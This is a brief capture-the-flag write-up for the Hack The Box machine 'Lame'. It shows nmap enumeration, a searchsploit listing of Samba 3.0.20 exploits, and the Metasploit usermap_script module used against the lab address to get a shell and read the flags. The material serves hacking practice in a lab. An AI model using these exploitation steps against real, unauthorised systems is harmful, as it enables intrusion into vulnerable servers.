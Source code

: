 # writeup

## lame

This box was a very simple box that infact has the most solves in hack the box proving its difficulty that only involved a simple search for exploits and then we use a metasploit module and get a shell.

> skills involved in this box
>
> * enumeration
> * metasploit

## USER & ROOT

After running our nmap scan we see that there is port 21 open and 445 running samba.

Trying to exploit the ftp service via a backdoor with `vsftpd 2.3.4` but it turned out to be a loop hole.

However the scan shows the samba version is `smbd 3.0.20-Debian` so we look for an exploit using searchsploit.

```text
searchsploit samba 3.0.20
--------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                   |  Path
--------------------------------------------------------------------------------- ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                           | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                            | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                    | linux_x86/dos/36741.py
--------------------------------------------------------------------------------- -------------------------------
```

We take a look at teh metasploit module:

```text
use exploit/multi/samba/usermap_script
```

All we have to do is `set RHOSTS 10.10.10.3` for configuring the options and then we `run` the exploit.

After this we get a shell.

We simply run a few enumeration commands and find the user flag in `/home/makis/user.txt`

The root flag is in `/root/root.txt` like always.

Thanks for reading hope it was worth the read.

